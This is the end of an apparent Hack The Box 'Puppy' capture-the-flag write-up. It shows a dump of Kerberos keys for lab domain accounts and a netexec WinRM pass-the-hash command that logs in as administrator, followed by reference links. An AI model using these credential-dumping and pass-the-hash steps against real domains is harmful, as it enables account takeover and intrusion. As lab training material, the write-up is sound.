PUPPY.HTB\levi.james:aes128-cts-hmac-sha1-96:661e02379737be19b5dfbe50d91c4d2f
PUPPY.HTB\levi.james:des-cbc-md5:efa8c2feb5cb6da8
PUPPY.HTB\ant.edwards:aes256-cts-hmac-sha1-96:107f81d00866d69d0ce9fd16925616f6e5389984190191e9cac127e19f9b70fc
PUPPY.HTB\ant.edwards:aes128-cts-hmac-sha1-96:a13be6182dc211e18e4c3d658a872182
PUPPY.HTB\ant.edwards:des-cbc-md5:835826ef57bafbc8
PUPPY.HTB\adam.silver:aes256-cts-hmac-sha1-96:670a9fa0ec042b57b354f0898b3c48a7c79a46cde51c1b3bce9afab118e569e6
PUPPY.HTB\adam.silver:aes128-cts-hmac-sha1-96:5d2351baba71061f5a43951462ffe726
PUPPY.HTB\adam.silver:des-cbc-md5:643d0ba43d54025e
PUPPY.HTB\jamie.williams:aes256-cts-hmac-sha1-96:aeddbae75942e03ac9bfe92a05350718b251924e33c3f59fdc183e5a175f5fb2
PUPPY.HTB\jamie.williams:aes128-cts-hmac-sha1-96:d9ac02e25df9500db67a629c3e5070a4
PUPPY.HTB\jamie.williams:des-cbc-md5:cb5840dc1667b615
PUPPY.HTB\steph.cooper:aes256-cts-hmac-sha1-96:799a0ea110f0ecda2569f6237cabd54e06a748c493568f4940f4c1790a11a6aa
PUPPY.HTB\steph.cooper:aes128-cts-hmac-sha1-96:cdd9ceb5fcd1696ba523306f41a7b93e
PUPPY.HTB\steph.cooper:des-cbc-md5:d35dfda40d38529b
PUPPY.HTB\steph.cooper_adm:aes256-cts-hmac-sha1-96:a3b657486c089233675e53e7e498c213dc5872d79468fff14f9481eccfc05ad9
PUPPY.HTB\steph.cooper_adm:aes128-cts-hmac-sha1-96:c23de8b49b6de2fc5496361e4048cf62
PUPPY.HTB\steph.cooper_adm:des-cbc-md5:6231015d381ab691
DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
DC$:des-cbc-md5:7f044607a8dc9710
[*] Cleaning up... 

```

With this we get the hash and to verify it we use :
```sh
nxc winrm puppy.htb -u administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b
WINRM       10.129.199.37   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.129.199.37   5985   DC               [+] PUPPY.HTB\administrator:bb0edc15e49ceb4120c7bd7e6e65d75b (Pwn3d!)

```

# References 
- https://www.hackingarticles.in/active-directory-enumeration-rpcclient/
- https://github.com/CravateRouge/bloodyAD
- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://www.youtube.com/watch?v=vsgPsMZx59w&t=5220s
- https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets
